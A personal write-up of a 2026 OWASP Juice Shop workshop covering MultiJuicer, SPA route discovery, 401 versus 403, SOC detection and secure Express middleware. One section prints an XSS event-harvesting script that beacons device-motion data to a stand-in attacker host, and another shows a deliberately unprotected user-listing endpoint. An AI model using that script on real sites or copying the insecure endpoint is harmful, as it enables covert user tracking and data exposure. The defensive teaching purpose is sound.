



# 🥤 OWASP Juice Shop Hands-On Workshop — Chennai, 2026

> **Event:** OWASP Juice Shop Hands-On Workshop  
> **Theme:** Learn • Exploit • Secure  
> **Date:** 2026-10-24  
> **Venue:** Apple Hall, Sri Sairam Engineering College, Chennai, India  
> **Speaker / Resource Person:** **Björn Kimminich** — Creator & Project Leader of OWASP Juice Shop; Product Group Lead, Application Ecosystem at Kuehne+Nagel  
> **Environment:** Authorized Lab Environment (MultiJuicer on Kubernetes)  
> **Navigation:** [🏠 Meetups Dashboard](../README.md) | [Talent Talks (2026-07-26)](../2026-07-26-talent-talks.md)


---

## 🎓 Certificate of Participation

I received a Certificate of Participation from the **OWASP Chennai Chapter** for attending the OWASP Chennai Chapter Cybersecurity Workshop on **24 October 2026**. The certificate is included below for event documentation.




---

## 📌 Executive Summary

On 24 October 2026, I attended a hands-on cybersecurity workshop conducted by **Björn Kimminich**, the creator and project leader of **OWASP Juice Shop**, held at Sri Sairam Engineering College, Chennai. 

The workshop provided deep architectural insights into modern web application security, containerized CTF infrastructure with **MultiJuicer**, client-side Single Page Application (SPA) analysis, and the critical distinction between client-side navigation and server-side authorization enforcement.

```text
+=============================================================================+
|                       WORKSHOP CORE FOCUS AREAS                             |
|                                                                             |
|   +-----------------------+     +-----------------------+     +---------+   |
|   | Modern SPA Mechanics  |     | MultiJuicer CTF Scale |     | Client  |   |
|   | Angular Routing & JS  | ==> | Kubernetes Pod Balanc.| ==> | Recon & |   |
|   | Bundle Inspection     |     | Isolated State Mgmt   |     | DevTools|   |
|   +-----------------------+     +-----------------------+     +---------+   |
|                                                                             |
|   +-----------------------+     +-----------------------+     +---------+   |
|   | Access Control Reality|     | Sensor & Event Hooks  |     | SOC &   |   |
|   | 403 vs 401 Mechanics  | ==> | Shake Logger / XSS    | ==> | Telemetry|  |
|   | Server-Side Boundary  |     | Input Surveillance    |     | Logging |   |
|   +-----------------------+     +-----------------------+     +---------+   |
+=============================================================================+
```

---

## 📸 Event Documentation

### Workshop Audience

*Figure 1: Hands-on lab session with students and security practitioners at Apple Hall, Sri Sairam Engineering College.*

### Björn Kimminich Presenting OWASP Juice Shop

*Figure 2: Björn Kimminich explaining the architectural design, challenge tracking, and vulnerability surface of OWASP Juice Shop.*

---

## 🏗️ 1. Big Picture: OWASP Juice Shop Application Architecture

**OWASP Juice Shop** is widely recognized as the most modern and sophisticated deliberately insecure web application. Unlike legacy vulnerable applications built on traditional LAMP stacks (Linux, Apache, MySQL, PHP) with server-rendered HTML pages, Juice Shop mirrors real-world cloud-native enterprise web applications built on **Rich Internet Applications (RIA)** and **Single Page Applications (SPA)**.

### Full-Stack Component Breakdown

```text
+-----------------------------------------------------------------------------+
|                     CLIENT TIER: SINGLE PAGE APPLICATION                    |
|                                                                             |
|   User Browser (Chrome / Firefox / Chromium)                                |
|   ├── Framework: Angular (TypeScript compiled to JavaScript)                |
|   ├── Styling: Angular Material / Bootstrap                                 |
|   ├── State & Routing: Angular Client-Side Router (HTML5 pushState / Hash) |
|   └── Minified Assets: main.js, vendor.js, polyfills.js, runtime.js         |
+-----------------------------------------------------------------------------+
                                      |
                                      | RESTful HTTP / HTTPS APIs (JSON payloads)
                                      | WebSocket connections (Scoreboard live sync)
                                      v
+-----------------------------------------------------------------------------+
|                   APPLICATION SERVER TIER: RUNTIME ENGINE                   |
|                                                                             |
|   Node.js Runtime & Express.js Web Framework                                |
|   ├── API Routes: /api/Users, /rest/user/login, /rest/products, /ftp        |
|   ├── Auth Middleware: JSON Web Tokens (JWT) verification (jsonwebtoken)   |
|   ├── Challenge Engine: juice-shop CTF tracker & notification socket        |
|   └── Template / Engine: Express route handlers & insecure utility methods   |
+-----------------------------------------------------------------------------+
                                      |
                                      | Object Relational Mapping (Sequelize)
                                      v
+-----------------------------------------------------------------------------+
|                      DATA PERSISTENCE & STORAGE TIER                        |
|                                                                             |
|   Relational & Non-Relational Storage Engines                               |
|   ├── Relational DB: SQLite (in-memory or file-backed, queried via SQL)     |
|   ├── Document Store: MarsDB (in-memory JavaScript MongoDB clone)           |
|   └── Static Storage: Local filesystem directory (/ftp, /public)            |
+-----------------------------------------------------------------------------+
```

### Why Juice Shop Matters for Modern Security Engineers

1. **JavaScript Everywhere:** Both frontend (Angular) and backend (Node.js/Express) run JavaScript/TypeScript. This mirrors modern enterprise codebases and introduces unique vulnerabilities (Prototype Pollution, Node.js deserialization, SSRF).
2. **Decoupled Architecture:** The frontend is strictly an API consumer. All business operations are executed via JSON-based REST APIs.
3. **Realistic Vulnerability Coverage:** It implements vulnerabilities from the entire **OWASP Top 10** (2021 & 2025 drafts), **OWASP API Security Top 10**, and **OWASP ASVS** (Application Security Verification Standard).

---

## ⚙️ 2. CTF Infrastructure: MultiJuicer & Multi-Tenant Isolation

During group training or CTF events, running a single shared instance of OWASP Juice Shop is unfeasible. If Participant A performs a SQL injection that wipes the database, or solves a challenge, Participant B's environment breaks or their scoreboard updates automatically.

To solve this, the workshop deployed **MultiJuicer**—an open-source Kubernetes-based platform designed specifically to scale Juice Shop for workshops.

### MultiJuicer Architecture Diagram

```text
+-----------------------------------------------------------------------------+
|                          STUDENT / AUDIENCE TRAFFIC                         |
|   Participant A Browser        Participant B Browser       Participant C... |
+-----------------------------------------------------------------------------+
           |                              |                            |
           +------------------------------+----------------------------+
                                          |
                                          v
+-----------------------------------------------------------------------------+
|                       INGRESS & LOAD BALANCER LAYER                         |
|                                                                             |
|   Kubernetes Ingress (Nginx / Traefik / AWS ALB)                            |
|   └── Routes incoming requests to juice-balancer service                    |
+-----------------------------------------------------------------------------+
                                          |
                                          v
+=============================================================================+
|                           MULTIJUICER CONTROL PLANE                         |
|                                                                             |
|   +---------------------------------------------------------------------+   |
|   | juice-balancer (Node.js / Express Proxy)                            |   |
|   | ├── Reads session cookie: balancer=<team-or-student-uuid>           |   |
|   | ├── Routes request to designated Juice Shop Pod                     |   |
|   | └── If new user: instructs Kubernetes API to spin up a new Pod      |   |
|   +---------------------------------------------------------------------+   |
|                                     |                                       |
|                                     v                                       |
|   +---------------------------------------------------------------------+   |
|   | juice-cleaner (Background Daemon / CronJob)                         |   |
|   | └── Scans for inactive pods (> 60 mins idle) & deletes them to save |   |
|   |     cluster compute and memory resources                            |   |
|   +---------------------------------------------------------------------+   |
+=============================================================================+
                                      |
        +-----------------------------+-----------------------------+
        |                             |                             |
        v                             v                             v
+----------------+            +----------------+            +----------------+
| Juice Shop Pod |            | Juice Shop Pod |            | Juice Shop Pod |
|  [Student 01]  |            |  [Student 02]  |            |  [Student 03]  |
| - Own SQLite   |            | - Own SQLite   |            | - Own SQLite   |
| - Own Scorebd  |            | - Own Scorebd  |            | - Own Scorebd  |
+----------------+            +----------------+            +----------------+
```

### Architectural Comparison: Single Instance vs. MultiJuicer

| Architectural Dimension | Standalone Juice Shop | MultiJuicer on Kubernetes |
| :--- | :--- | :--- |
| **Concurrency Target** | 1 user / single developer machine | Hundreds of simultaneous workshop participants |
| **State Sharing** | Shared SQLite database; race conditions occur | Complete container-level and storage isolation |
| **Scoreboard Tracking** | Global (first solver triggers notification for all) | Individual per participant/team |
| **Resource Management** | Static memory consumption | Dynamic scaling, automatic teardown of idle pods |
| **Session Routing** | Direct port binding (default `3000`) | Session-cookie sticky proxying (`balancer` cookie) |

---

## 🔍 3. Hands-On Lab Investigations & Methodology

During the session, challenge-based investigations were conducted using the built-in scoreboard and Chromium Developer Tools. Below is the rigorous technical documentation of what was observed, tested, and concluded.

```text
       +-------------------------------------------------------+
       |           STRUCTURED INVESTIGATION METHODOLOGY        |
       |                                                       |
       |  [ FACT ]        Verified ground truth in application |
       |      |                                                |
       |  [ OBSERVATION ] What was seen via tools / telemetry  |
       |      |                                                |
       |  [ HYPOTHESIS ]  Informed theory of operation         |
       |      |                                                |
       |  [ TEST ]        Actionable verification procedure    |
       |      |                                                |
       |  [ RESULT ]      Raw output / HTTP response received  |
       |      |                                                |
       |  [ CONCLUSION ]  Technical insight / vulnerability state|
       +-------------------------------------------------------+
```

---

### Investigation A: Challenge Scoreboard Navigation & CTF Workflow

* **Fact:** OWASP Juice Shop includes an interactive scoreboard tracking over 100 challenges classified into 6 difficulty tiers (⭐ to ⭐⭐⭐⭐⭐⭐) and across categories including Broken Authentication, Injection, XSS, Security Misconfiguration, and Broken Access Control.
* **Observation:** The scoreboard provides dynamic filtering controls (by category, difficulty, status: solved/unsolved). When a challenge is solved, a notification banner appears with an audio cue, and the event emits a WebSocket payload back to the client.
* **Workflow:**
  1. Filter challenges by 1-star difficulty to establish baseline application familiarity.
  2. Read challenge descriptions and analyze whether the objective requires client-side inspection, server API manipulation, or input sanitization bypass.
  3. Verify completion status directly from the scoreboard interface.

---

### Investigation B: The Privacy Policy Challenge (Introductory Recon)

* **Fact:** Web applications subject to GDPR and privacy regulations must publish accessible Privacy Policies detailing data collection, processing, and storage practices.
* **Observation:** In the application navbar or side menu, navigation links are dynamically generated. The Privacy Policy link resolves to a client-side route: `/#/privacy-security/privacy-policy`.
* **Hypothesis:** Visiting the designated legal disclosure component satisfies the challenge trigger condition inside the challenge tracking engine.
* **Test:**
  1. Open the application sidebar navigation drawer.
  2. Navigate to **Privacy & Security** -> **Privacy Policy**.
  3. Inspect Network tab in Developer Tools while the page loads.
* **Result:** The browser loads the static Privacy Policy text component. Immediately, an HTTP POST / WebSocket event notifies the backend challenge engine:
  ```http
  POST /api/Challenges/ HTTP/1.1
  Host: juiceshop.lab
  Content-Type: application/json

  {"name":"Privacy Policy"}
  ```
  Scoreboard updates: Challenge Solved (⭐).
* **Conclusion:** The challenge confirms baseline navigation and tracking functionality. It highlights how user interactions on the frontend trigger backend telemetry updates.

---

### Investigation C: The Administration Section Challenge (Client-Side Route Discovery vs. Server-Side Enforcement)

This was the central technical deep-dive of the workshop session. It demonstrated how single-page applications expose internal structural logic to unauthenticated users, and tested where access controls actually reside.

```text
+=============================================================================+
|              CLIENT-SIDE ROUTE DISCOVERY VS SERVER ENFORCEMENT              |
+=============================================================================+

 1. DEVTOOLS RECON           2. BROWSER NAVIGATION        3. API REQUEST
+---------------------+     +----------------------+     +--------------------+
| Inspect main.js     |     | Enter URL:           |     | Angular component  |
| Grep: "path:"       | ==> | /#/administration    | ==> | makes backend call:|
| Found:              |     | Client Router loads  |     | GET /api/Users     |
| path: 'administration'|   | component structure  |     | (No Bearer Token)  |
+---------------------+     +----------------------+     +--------------------+
                                                                    |
                                                                    v
 5. CLIENT EXPERIENCE        4. STATUS CODE DECISION      +--------------------+
+---------------------+     +----------------------+      | Express Server     |
| Component displays  |     | Response:            | <=== | Middleware Check:  |
| 403 Forbidden Error | <== | HTTP/1.1 403 / 401   |      | Insecure Auth      |
| Access denied!      |     | Access Denied        |      | Missing Admin Role |
+---------------------+     +----------------------+      +--------------------+
```

#### Step 1: Reconnaissance via Chromium Developer Tools
* **Fact:** Angular compiles TypeScript code (components, routes, services) into bundled JavaScript files (e.g., `main.js`, `vendor.js`, `runtime.js`). These files are served directly to any unauthenticated client browser so the client can render the UI.
* **Observation:** Opening Developer Tools (`Ctrl+Shift+I` / `F12`) -> **Sources** tab -> Searching (`Ctrl+Shift+F`) for routing keywords such as `path:` or `component:` reveals the frontend routing table:
  ```javascript
  // Minified snippet observed in main.js
  { path: "administration", component: _AdministrationComponent, canActivate: [_AdminGuard] }
  ```
* **Hypothesis:** The string `'administration'` defines an administrative route that is hidden from the public navigation UI menu, but declared in the client-side router. Navigating directly to `/#/administration` might render the administration panel.

#### Step 2: Testing Route Navigation
* **Test Executed:** Manually entered `http://<lab-ip>/#/administration` in the browser URL bar.
* **Result:** The browser attempted to load the component, but received an HTTP `403 Forbidden` response from the backend API, displaying an error or redirecting.

#### Step 3: Detailed Technical Analysis of the 403 Forbidden Result

Why did this occur, and what does it prove?

1. **Client-Side Route vs. Backend API Boundary:**
   - Navigating to `/#/administration` tells the Angular router to load the `AdministrationComponent`.
   - However, once initialized, `AdministrationComponent` attempts to populate its tables by requesting sensitive records from the backend REST API:
     ```http
     GET /api/Users HTTP/1.1
     Host: juiceshop.lab
     Connection: keep-alive
     Accept: application/json, text/plain, */*
     ```
   - Because no administrator credentials or valid JWT bearer tokens were supplied in the `Authorization` header, the backend Express.js middleware intercepted the request:
     ```javascript
     // Backend middleware logic (Node.js/Express)
     function isAuthorized(role) {
       return (req, res, next) => {
         const token = req.headers['authorization']?.replace('Bearer ', '');
         if (!token) return res.status(401).send('Authentication token missing');
         const decoded = jwt.verify(token, secretKey);
         if (decoded.role !== 'admin') return res.status(403).send('Forbidden: Insufficient privileges');
         next();
       };
     }
     ```
2. **Fact vs. Conclusion Distinction:**
   - **Fact:** The route path `administration` was successfully identified in client-side JavaScript.
   - **Fact:** Directly accessing the route without authentication yielded an HTTP `403 Forbidden` / `401 Unauthorized` response.
   - **Conclusion:** Route discovery **is not** authorization bypass. Finding the name of an administrative portal is mere **reconnaissance**; accessing its protected functionality requires circumventing or hijacking the server's authentication/authorization mechanism (e.g., SQL injection into the admin login, session hijacking, or JWT manipulation).
   - *Status:* Recorded accurately as an investigation in progress, demonstrating rigorous scientific reporting rather than falsely claiming challenge completion.

---

### Investigation D: Shake Logger, Keystroke Logging & Client-Side Sensor Security

* **Fact:** Modern HTML5 browser APIs provide access to rich device telemetry and user events, including `DeviceMotionEvent`, `DeviceOrientationEvent`, touch coordinates, and keystroke listeners (`keydown`).
* **Observation:** During the workshop demonstration, a "Shake Logger" / sensor-logging mechanism was discussed in the context of client-side tracking and security risks.
* **Technical Risk Analysis:**

```text
+-----------------------------------------------------------------------------+
|                     CLIENT-SIDE SENSOR & KEYSTROKE FLOW                     |
|                                                                             |
|   Physical User Action           Browser DOM API             Script Hook    |
|   [ Phone Shake / Tilt ] ====> [ DeviceMotionEvent ] =====> [ Event Handler ]
|   [ Keyboard Input     ] ====> [ document.onkeydown ] ====> [ Sensor Log   ]
|                                                                     |
|                                                                     v
|   Exfiltration Target          Async HTTP Request          Payload Assembly |
|   [ Attacker C2 Server ] <=== [ fetch('/log', {...}) ] <=== [ JSON Object   ]
+-----------------------------------------------------------------------------+
```

1. **Cross-Site Scripting (XSS) Amplification:** If an application contains a Stored or Reflected XSS vulnerability, an adversary can inject a lightweight event listener:
   ```javascript
   // Weaponized client-side event harvesting script
   window.addEventListener('devicemotion', (event) => {
     const accel = event.accelerationIncludingGravity;
     if (Math.abs(accel.x) > 15 || Math.abs(accel.y) > 15) {
       navigator.sendBeacon('https://c2.attacker.lab/log', JSON.stringify({ event: 'shake', coords: accel }));
     }
   });
   ```
2. **Eavesdropping on Sensitive Inputs:** Beyond device motion, client-side logging scripts can inadvertently capture sensitive input fields (passwords, credit card numbers, OTPs) and transmit them over unencrypted channels or log them to insecure analytics platforms.
3. **Authorized Lab Scope:** In accordance with authorized penetration-testing standards, all sensor manipulation and input harvesting tests must strictly occur within isolated CTF sandboxes.

---

## ⚖️ 4. Conceptual Comparison Tables

### Comparison 1: Client-Side Routing vs. Server-Side Routing

| Feature | Client-Side SPA Routing (Angular / React) | Traditional Server-Side Routing (PHP / Django) |
| :--- | :--- | :--- |
| **Route Processing Location** | In the browser (via JavaScript DOM manipulation) | On the web server (Apache / Nginx / Gunicorn) |
| **Route Visibility** | **Publicly visible** in minified JS bundle source code | Hidden on server; discovered only via fuzzing or brute-force |
| **Initial Load** | Downloads full client app bundle (`main.js`) | Downloads only HTML for the requested page |
| **Security Enforcement** | UI hiding only; **zero security boundary** | Server handles routing, authentication, and authorization |
| **Common Mistake** | Assuming hidden UI links cannot be found or visited | Leaking internal paths through debug trace errors |

### Comparison 2: HTTP 401 Unauthorized vs. HTTP 403 Forbidden

| Property | HTTP 401 Unauthorized | HTTP 403 Forbidden |
| :--- | :--- | :--- |
| **Literal Meaning** | "Unauthenticated" | "Unauthorized / Forbidden" |
| **Identity Known?** | No. The server does not know who the client is. | Yes (usually). The server knows who you are, but you lack permissions. |
| **Remediation Action** | Provide valid credentials (e.g., `Authorization: Bearer <token>`). | Authenticate as an account with elevated privileges (e.g., Admin role). |
| **SOC Triage Context** | Normal during expired sessions; suspicious if high volume against `/login`. | High fidelity indicator of privilege escalation or path traversal attempt. |

---

## 🛡️ 5. SOC Analyst & Blue Team Detection Mechanics

As a SOC analyst, monitoring Single Page Applications requires inspecting both perimeter network traffic and API-level logs, because client-side errors (`403`, `404`) frequently hide deliberate reconnaissance.

```text
+=============================================================================+
|                          SOC TELEMETRY & LOG PIPELINE                       |
+=============================================================================+

  Client Browser Recon          WAF / Reverse Proxy Logs      SIEM Correlation
+-----------------------+     +--------------------------+   +----------------+
| Probing /#/admin      |     | Nginx / Cloudflare Log:  |   | Splunk / ELK   |
| API calls to          | ==> | IP: 192.168.1.45         | =>| Rule:          |
| /api/Users without JWT|     | URI: /api/Users          |   | "Spike in 403s |
+-----------------------+     | Status: 403 Forbidden    |   | from single IP"|
                              +--------------------------+   +----------------+
                                                                     |
                                                                     v
                                                             Alert: Tier 1 Triage
```

### Telemetry & Log Artifacts

When an attacker discovers an administrative route in JavaScript and begins querying sensitive API endpoints, the reverse proxy and application logs record characteristic signatures:

```log
# Nginx access.log example
192.168.1.45 - - [24/Oct/2026:14:22:01 +0530] "GET /main.js HTTP/1.1" 200 452104 "-" "Mozilla/5.0"
192.168.1.45 - - [24/Oct/2026:14:22:35 +0530] "GET /api/Users HTTP/1.1" 403 72 "http://juiceshop.lab/#/administration" "Mozilla/5.0"
192.168.1.45 - - [24/Oct/2026:14:22:38 +0530] "GET /rest/admin/application-version HTTP/1.1" 403 68 "http://juiceshop.lab/#/administration" "Mozilla/5.0"
```

### Detection Sigma Rule (Conceptual)

```yaml
title: Unauthorized Administrative API Enumeration in SPA
id: a1b2c3d4-juice-spa-enum
status: experimental
description: Detects multiple 403/401 HTTP response codes directed at administrative API endpoints within a short time window.
logsource:
    category: webserver
detection:
    selection:
        cs-method: 'GET'
        cs-uri-stem|startswith:
            - '/api/Users'
            - '/rest/admin/'
            - '/api/Challenges'
        sc-status:
            - 401
            - 403
    timeframe: 1m
    condition: selection | count() > 5
level: medium
tags:
    - attack.discovery
    - attack.t1087 # Account Discovery
```

---

## 🔧 6. Secure Remediation: Defense in Depth

To secure modern SPAs and prevent broken access control, developers must enforce strict authorization boundaries on the server:

### Vulnerable Express.js Implementation (Relying on Client Route Hiding)
```javascript
// INSECURE: Relies on the assumption that only admins know the URL
app.get('/api/Users', async (req, res) => {
  const users = await models.User.findAll();
  res.json(users); // Anyone who calls this gets all user records!
});
```

### Secure Express.js Implementation (Role-Based Access Control Middleware)
```javascript
// SECURE: Enforces JWT token validation and role verification on every API invocation
const jwt = require('jsonwebtoken');

function requireAdmin(req, res, next) {
  const authHeader = req.headers.authorization;
  if (!authHeader || !authHeader.startsWith('Bearer ')) {
    return res.status(401).json({ error: 'Authentication token required.' });
  }

  const token = authHeader.split(' ')[1];
  try {
    const payload = jwt.verify(token, process.env.JWT_SECRET_KEY);
    if (payload.role !== 'admin') {
      return res.status(403).json({ error: 'Access denied: Administrator privileges required.' });
    }
    req.user = payload;
    next(); // Proceed to controller
  } catch (err) {
    return res.status(401).json({ error: 'Invalid or expired session token.' });
  }
}

app.get('/api/Users', requireAdmin, async (req, res) => {
  const users = await models.User.findAll({ attributes: ['id', 'email', 'createdAt'] }); // Strip password hashes
  res.json(users);
});
```

---

## 🌍 7. Real-Time Technical Scenario: Enterprise SaaS BFLA Vulnerability

* **The Architecture:** A FinTech enterprise migrated its banking portal from a server-rendered system to an Angular Single Page Application.
* **The Vulnerability:** The frontend developers created an `AdminModule` with routes `/admin/payouts` and `/admin/kyc-approvals`. They hidden the navigation buttons from standard users using Angular's `*ngIf="currentUser.role === 'admin'"`. However, backend microservices serving `/api/v2/payouts/approve` assumed that since requests came from the web client, the caller was authorized.
* **The Exploit:** A junior analyst opened DevTools, inspected `vendor.bundle.js`, searched for `approve`, extracted the API endpoint `/api/v2/payouts/approve`, and replayed the request with their own valid standard session cookie using `curl`. The server processed the payout without verifying the administrator role (**Broken Function Level Authorization - BFLA, OWASP API Top 10: API5:2023**).
* **The Lesson:** Obfuscation and frontend guards (`canActivate`) are strictly UI conveniences; the **server API is the only security perimeter that matters**.

---

## 🔗 8. Connections to Previous Study

This workshop directly reinforces concepts documented across our learning repository:

* **[Week 04 — OWASP Top 10 & Web AppSec](../../week-04/2026-09-01.md):** Deepens understanding of Broken Access Control (A01:2021) and SQL Injection mechanics.
* **[Week 04 — HTTP & Network Security](../../week-04/2026-08-31.md):** Connects HTTP status codes (`401`, `403`, `200`) and proxy architectures to live application behavior.
* **[Talent Talks Meetup](../2026-07-26-talent-talks.md):** Grounds the discussion of hands-on lab practice and offensive/defensive convergence.

---

## 🧠 9. My Understanding Check

Answer these questions to evaluate your comprehension of SPA security and workshop mechanics:

1. **Question 1 (Architectural):** Why does searching for `path:` in browser Developer Tools reveal admin routes in an Angular application, whereas doing the same in a traditional PHP application reveals nothing?
2. **Question 2 (Access Control):** You discover a route `/#/super-admin` in client JS. When visited, the UI displays an empty table and your browser network tab shows `403 Forbidden` on `GET /api/v1/system/diagnostics`. Is this an authentication failure or an authorization failure, and what is your next hypothesis?
3. **Question 3 (CTF Scaling):** What specific race condition or state conflict occurs when 50 students attempt to solve SQL injection challenges on a single shared Juice Shop instance instead of MultiJuicer?
4. **Question 4 (SOC Detection):** What telemetry indicators differentiate a legitimate developer testing an admin API from an adversary enumerating hidden routes via Developer Tools?
5. **Question 5 (Defense):** If an Angular frontend uses `canActivate: [AuthGuard]` to prevent regular users from clicking into an admin route, why is the application still completely insecure if the backend API lacks role checks?

---

## 📋 10. Key Takeaways

1. **Client-Side Routes Are Not Security Controls:** Hiding routes in JavaScript bundles is merely obscurity. All client code is fully readable by end users.
2. **Authorization Must Be Server-Enforced:** Every backend API endpoint must independently validate identity and privilege on every incoming request.
3. **Developer Tools Are Primary Recon Tools:** The Sources and Network tabs in modern browsers provide comprehensive insights into frontend routing and API endpoints.
4. **MultiJuicer Solves Lab Concurrency:** Container orchestration via Kubernetes enables isolated state, independent challenge scoring, and dynamic cleanup for scalable security training.
5. **Accurate Observation Over Assumption:** Receiving a `403 Forbidden` response proves access was blocked—it is vital to document investigations objectively rather than assuming successful exploitation.

---

## ⚡ 11. One-Minute Revision

> **OWASP Juice Shop** is an intentionally vulnerable modern SPA (Angular frontend, Node.js/Express backend, SQLite DB). Unlike legacy web apps, modern SPAs download routing and logic into client JavaScript bundles (`main.js`). Security testers use browser Developer Tools to extract hidden routes and API endpoints. However, client-side route access (`/#/administration`) is not an exploit; backend APIs enforce authorization via JWT validation and return `401 Unauthorized` (unauthenticated) or `403 Forbidden` (lacking role). In workshop environments, **MultiJuicer** orchestrates isolated container instances per participant using Kubernetes and cookie-based proxy routing.

---

## 📚 References & Resources

- [OWASP Juice Shop Official Project Page](https://owasp.org/www-project-juice-shop/)
- [OWASP Juice Shop GitHub Repository](https://github.com/juice-shop/juice-shop)
- [MultiJuicer GitHub Repository](https://github.com/juice-shop/multi-juicer)
- [Björn Kimminich: Pwning OWASP Juice Shop Companion Guide](https://pwning.owasp-juice.shop/)
